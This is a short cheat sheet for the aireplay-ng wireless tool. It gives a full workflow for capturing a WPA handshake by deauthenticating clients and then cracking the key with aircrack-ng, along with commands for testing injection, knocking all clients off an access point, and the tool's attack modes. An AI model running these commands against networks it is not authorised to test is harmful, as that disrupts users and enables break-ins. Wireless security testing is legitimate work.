 # aireplay-ng

Used to inject/replay frames. The primary function is to generate traffic for later use in aircrack-ng for cracking the WEP and WPA-PSK keys. For example, looking for the four-way handshake message during a deauthentication injection tests. Make sure that both the BSSID and CHANNEL are set correctly prior to injections.

Here's the normal workflow.

```bash
sudo airmon-ng -c $CHANNEL wlan0

# Terminal 1
sudo airodump-ng -c $CHANNEL --bssid $BSSID --output-format pcap -w $TAG wlan0mon

# Terminal 2
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT wlan0mon

# Wait for found handshake message from airodump-ng then stop everything

# Crack the key
sudo aircrack-ng -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

## Commands

```bash
# Test if injection works for given interface
sudo aireplay-ng --test wlan0mon

# Test injection between two interfaces
sudo aireplay-ng --test -i wlan1mon wlan0mon

# Test injection in a specific AP
sudo aireplay-ng -e $SSID -a $BSSID wlan0mon

# Test injection in a specific AP without expecting to receive probes
sudo aireplay-ng -e $SSID -a $BSSID -D wlan0mon

# Deauthenticate a specific client connected to an AP
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT wlan0mon

# Deauthenticate ALL clients connected to an AP
sudo aireplay-ng --deauth 7 -a $BSSID wlan0mon
```


## Attack Modes

```bash
aireplay-ng --help

Attack modes (numbers can still be used):

    --deauth      count : deauthenticate 1 or all stations (-0)
    --fakeauth    delay : fake authentication with AP (-1)
    --interactive       : interactive frame selection (-2)
    --arpreplay         : standard ARP-request replay (-3)
    --chopchop          : decrypt/chopchop WEP packet (-4)
    --fragment          : generates valid keystream   (-5)
    --caffe-latte       : query a client for new IVs  (-6)
    --cfrag             : fragments against a client  (-7)
    --migmode           : attacks WPA migration mode  (-8)
    --test              : tests injection and quality (-9)
```

## References

* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
